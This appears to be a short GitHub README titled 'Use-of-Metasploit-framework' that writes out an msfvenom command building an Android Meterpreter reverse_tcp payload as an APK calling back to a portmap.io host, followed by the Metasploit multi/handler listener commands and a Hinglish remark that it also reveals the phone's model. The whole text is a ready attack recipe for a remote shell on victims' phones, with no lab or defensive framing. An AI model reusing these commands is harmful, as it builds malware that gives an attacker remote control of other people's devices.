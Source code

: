 # Use-of-Metasploit-framework
msfvenom -p android/meterpreter/reverse_tcp lhost=lalratan519-32111.portmap.io lport=32111 R > payload1.apk



use exploit/multi/handler


set payload android/meterpreter/reverse_tcp


set lhost lalratan519-32111.portmap.io


set lport 3333


exploit



And Mobil ka model pta krne ke liy v kiya jata h
